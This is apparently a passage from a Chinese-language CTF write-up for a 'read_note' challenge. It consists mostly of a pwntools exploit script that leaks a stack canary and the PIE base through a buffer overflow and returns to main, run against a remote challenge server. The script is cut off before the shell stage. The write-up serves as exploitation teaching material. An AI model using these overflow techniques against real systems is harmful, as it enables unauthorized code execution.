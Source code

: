   ### get_shell payload

  ret2main或者ret2vul，输入两次payload，getshell。别忘了gadget也是要加上偏移量的，使用libc中的就将上libc偏移量，使用elf(程序本身)的就加上前面泄露的PIE。

  最终EXP：

  ```python
  #coding:utf-8
  #elf => read_note
  #libc.so.6 => cp /lib/x86_64-linux-gnu/libc.so.6 libc.so.6
  from pwn import *
  
  #==================初始化加载资源===================
  context.log_level='info'
  p = remote("114.116.54.89", 10000)
  libc=ELF("./libc.so.6")
  #p = process("./read_note")
  
  #=====================IDA查询地址==================
  val_add = 0xd2e
  main_add = 0xd20
  puts_plt_add = 0x8b0
  puts_got_add = 0x202018
  pop_rdi_add = 0xe03	#gadget from elf
  
  #===================Round 1 leak canary===========
  print p.recvuntil("path:")
  p.sendline("flag")
  print p.recvuntil("len:")
  p.sendline("1000")
  payload = "A" * (0x260-8)+"B"
  p.send(payload)
  print p.recvuntil("B")
  canary = u64(p.recv(7).rjust(8,"\x00"))	#修复canary最低位
  print "cancay:", hex(canary)
  x = p.recvline()
  #===================Round 1 ret2main==============
  p.recvuntil("(len is 624)\n")
  payload = "A" * (0x260-8) 
  payload += p64(canary)
  payload += 'a'*0x8
  payload += "\x20"
  p.send(payload)
  
  #===================Round 2 leak PIE==============
  print p.recvuntil("path:")
  p.sendline("flag")
  print p.recvuntil("len:")
  p.sendline("1000")
  payload = "A" * (0x260+7)+"B"
  p.send(payload)
  print p.recvuntil("B")
  x = p.recvline()
  val = u64(x[:-1].ljust(8,"\x00"))
  print "val:", hex(val)
  elf_base = val - val_add
  print hex(elf_base)
  p.recvuntil("(len is 624)\n")
  payload = "A" * (0x260-8) 
  payload += p64(canary)
  payload += p64(0)
  payload += "\x20"
  p.send(payload)
  ```